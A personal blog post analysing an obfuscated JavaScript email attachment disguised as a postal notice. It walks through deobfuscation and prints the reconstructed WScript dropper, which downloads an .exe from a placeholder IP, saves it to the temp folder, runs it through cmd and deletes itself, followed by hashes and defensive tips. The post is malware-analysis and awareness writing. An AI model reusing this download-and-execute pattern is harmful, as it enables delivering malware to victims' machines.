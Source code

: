 ```yaml
---
layout:     post
title:      "Analyzing JavaScript Malware"
subtitle:   "Quick Story Behind Spam Attachment"
date:       2016-10-29 0:00:00
author:     "W3ndige"
header-img: "img/analyzing-javascript-malware-header.jpg"
---
```


<h1>Backstory</h1>

<p>About half of a year ago, my girlfriend got e-mail from post office saying that the the package was ready to pickup, with a quick note saying that more information is available in the attachment. I was asked to look at it, as she found it suspicious - mail was written very poorly - definitely not what official mail would sound like. Firstly I took a look at the domain, from where this mail was sent, and as I excepted, it was not connected to domains of our post service. But what I really wanted to know was, what's the goal of the attachment? </p>

<h1>First contact</h1>

<p>After downloading it, I noticed that the extension of the file was <b>.js</b> - some JavaScript file. But it was only possible because I had turned on showing files with their extensions. Someone without this option would see it only as .txt file. Viewing the source, unfortunately at first, gave me no clue how it works. Script was made of around 400 lines of code. But after looking closer it seemed, that around quarter of the code was actually part that did something, rest was only filled with assigned variables and functions returning pieces of words. </p>

{% highlight javascript %}
var tbuloq1 = {
	itxy:'plebydva', 8423:730, ldipli:353, lgahze:"AtEn", ekxov:'dipyvvo'
}
["lgahze"];
function daqkuvtejqa3 () {
           var ssororg0 = {
		lifki:'hylxyzra', 2216:"d", 6034:'ubylivw'
	}
	;
	var xhahbolz3 = ssororg0["2216"];
           return xhahbolz3;
}

{% endhighlight %}

<p>But after some time I noticed a pattern - in last 30 lines of code, there were only references to the variables, and after connecting them together what I got, was much more readable than before. In example, if you take this piece of code and connect to the variables in the beggining, what you'll get is something more likely looking like this. </p>

{% highlight javascript %}
ejybpib6= zoracufyp7[nsatqe9 + oxqokowj9 + ynxyru7 + exgemko2];
{% endhighlight %}

<p>Great, now to make it clearer to read I have to do the same. Unfortunately I'm not completely sure that it's 'translated' 100% correctly, but it still gives me insight into how this script may work. </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
{% endhighlight %}

<p>Finally, after around 3 hours, I got the full translation. But I've got still a few questions, what is WScript and how it works? </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
ehynzedda7 = WScript.CreateObject(Scripting.FileSystemObject);
elmona4 = WScript.CreateObject(WScript.Shell);
acjihy9 = WScript.CreateObject(MSXML2.XMLHTTP);
jyfej9 = WScript.CreateObject(ADODB.Stream);
oqavate7 = ehynzedda7.GetSpecialFolder(2);

if (typeof document == undefined) {
  kagignu5 = WScript.CreateObject(Scripting.FileSystemObject).GetTempName();
}

if(typeof WScript.StdIn.AtEndOfStream == unknown) {
  ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).open(GET, 'http://some_ip_address/8899.exe', 0);
}
ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).send();
WScript.CreateObject(ADODB.Stream).type = 1;
try {
    if(!WScript.Arguments.Unnamed.length]) {
			oxacobmo3 = WScript.CreateObject(MSXML2.XMLHTTP).ResponseBody;
		}
    ruzetpa0 = WScript.ScriptFullName;
    ixzebni1 = WScript.CreateObject(ADODB.Stream)Open();
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Write(oxacobmo3);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).SaveToFile(oqavate7 + kagignu5);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Close();
    ixzebni1 = WScript.CreateObject(WScript.Shell).run(cmd.exe /c + oqavate7 + kagignu5, 0;
    ixzebni1 = WScript.CreateObject(Scripting.FileSystemObject).deleteFile(ruzetpa0);
}
catch(e) {
}

{% endhighlight %}

<p>Okay, as far as I can understand, it downloads the file from url (not shown in this code), and somehow executes it, maybe using cmd?  But for better insight I had to dig for references showing the use of the WScript and other functions show in this code. </p>

<h1>Understanding</h1>

<p><b>Windows Host Script</b> is an Windows eviroment, providing the user with a possibility to run scripts in a variety of languages. By default, when JavaScript is saved to your hard drive, it will be run by WSH with power of executable file. </p>

<p>Script uses these WScript calls: </p>

<ul>
<li><b>WScript.CreateObject(WScript.Shell)</b> - provides access to shell methods of operating system.</li>
<li><b>WScript.CreateObject(MSXML2.XMLHTTP)</b> - XML request using HTTP.</li>
<li><b>WScript.CreateObject(ADODB.Stream)</b> - is used to represent a stream of data or text.</li>
</ul>

<p><b>GetSpecialFolder(2)</b> will get the %TEMP% folder. </p>

<p>Then the script creates the XML request to get the data from specified URL and, then it sends the request. </p>

<p>After that script creates a series of commands to: </p>

<ol>
<li>Get the response body of the request. </li>
<li>Write it to a file in tmp directory. </li>
<li>Save and close the file. </li>
<li>Execute through CMD</li>
<li>Lastly, it will delete the file. </li>

</ol>

<p>Unfortunately, .exe file was not available, while I got to check, and I couldn't find as much info about it as I wanted. The only information I could find were: </p>

{% highlight text %}
Operating System: Windows 7 / 8 / 8.1 / 10
Singature Name: QVM07.1.Malware.Gen

Main Info:

Name: 8899.exe

Size: 569464

Type: PE32 executable (GUI) Intel 80386, for MS Windows

MD5: 3771453fc565a0436534d509dcb7da9f

SHA1: 803e3634a70dd3b9ce2b409b108cb1baf5fa3d08

Freezing computer.
New home page in browsers.
Ads and pop-ups on desktop and browser.
Very slow loading speed of webpages.
Computer work slower then usual.
{% endhighlight %}

<h1>Conclusion</h1>

<p>Author of this malware did a lot, to try and obfuscate this script, as I spent a lot of time trying to make it readable, but still it wasn't as complicated as I thought at first. To stay protected from these kinds of attacks, remember to tell explorer to open .js files through the Notepad by default, as well as show files with their extensions. That way you will see if it's really a text document or .txt.js malware. And the most important step, don't download files that you're unsure about. Simply, don't trust anyone ;) </p>

<p>I had great fun, trying to understand the concept, and even though you may think, that it was very simple, I still learned a lot from this. Anyway, thanks for reading, I hope you learned something new, and I'll see you in the next one! </p>

<p>~ Stay safe!</p>
